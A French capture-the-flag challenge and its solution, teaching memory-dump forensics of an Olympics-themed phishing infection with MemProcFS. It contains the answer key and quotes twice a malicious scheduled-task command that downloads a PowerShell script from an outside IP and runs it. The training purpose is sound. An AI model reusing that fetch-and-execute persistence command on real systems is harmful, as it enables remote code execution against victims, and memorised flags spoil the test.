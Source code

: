 ## Description

### Enquête sur le phishing des JO : Retracer l'attaque Partie 1

![Illustration](../images/illu_Phishing.jpg)

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite avoir. 

Vous avez pour mission de réaliser l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié. 

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ? 

Pour résoudre ce challenge, vous devez répondre aux questions suivantes : 

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créée ?

3 - Quel script est lancé par cette scheduled task ?

#### Format du flag

**SHLK{'nom-fichier'-'scheduled task-'script'}**

#### Exemple

1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

**SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}**


#### SHA256

dump.raw : 757D150394158D68F33D25A46EF45D6874FE046A40DA7E97C3C0D33DF21EB7E1

dump.zip : 3C6DA179B87FA2DC0ACB988466428679FD6AF0905F004A56E8A968A83009E16D

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.

Il a été réalisé afin de permettre une introduction à l'analyse de timeline et de dump mémoire.

## Solution

### TL;DR

- Analyse du système de fichiers pour trouver le script malveillant
- Analyse des tasks créées

### Informations trouvées grâce à l'énoncé

Notre investigation commence par l'analyse de l'énoncer.
On y apprend qu'une campagne de phishing par mail a eu lieu.

> Information : Mail de phishing

> Hypothèse : Potentiel téléchargement, visite de site web, ..

Fichiers donnés : 

- `dump.raw` : dump mémoire de l'ordinateur infecté (Windows 10)
- `ordi.png` : screenshot de l'ordinateur infecté

### Informations trouvées grâce à ordi.png

![Ordi.png](../Code_Source/Ordi.png)

On continue par regarder le contenu de `Ordi.png` qui est le screenshot de l'ordinateur infecté.
Cette capture d'écran nous permet de récolter des informations précieuses pour la suite de notre investigation.

On y apprend les différents processus et fichiers ouverts :

- Notepad : instructions.txt
- Edge : ../Downloads/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf

Ainsi que les autres applications de la taskbar.

### Etude

On va continuer notre investigation par l'analyse du dump mémoire.
Pour cela, on va utiliser l'outil [MemProcFS](https://github.com/ufrisk/MemProcFS).

```bash
MemProcFS.exe -forensic 1 -device dump.raw
```

On va séparer notre analyse par les différentes questions posées.

- **Quel est le nom du fichier malveillant ?**

L'accès initial étant un mail de phishing, on regarde son système de fichiers pour voir s'il n'a pas téléchargé de fichier malveillant.

On regarde ainsi dans MemProcFS le dossier `M:\forensic\ntfs\1\Users\clara\Downloads\`
On remarque qu'il a téléchargé *Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.zip*.

Ce zip extrait le fichier `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk` ayant pour type `raccourci`.

Première partie du flag : `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk`

- **Quel est le nom de la scheduled task créée ?**

On va ainsi s'intéresser aux tâches planifiées. Dans MemProcFS, on regarde le fichier `M:\forensic\csv\tasks.csv` qui répertorie ces tâches.

On voit la première `task` `IGotYourFileInfo` ayant pour ligne de commande `Invoke-WebRequest` et pour paramètre `-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1`.
Cette task parait malveillante tant bien dans son nom que dans ces paramètres.

On vérifie dans `M:\forensic\csv\timeline_tasks.csv` que la task a été créée.

Deuxième partie du flag : `IGotYourFileInfo`

- **Quel script est lancé par cette scheduled task ?**

On récupère dans `M:\forensic\csv\timeline_tasks.csv` le log de la création de la tâche planifiée :

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

Le script lancé est le paramètre de *-OutFile*

Troisième partie du flag : GetFilesInfo.ps1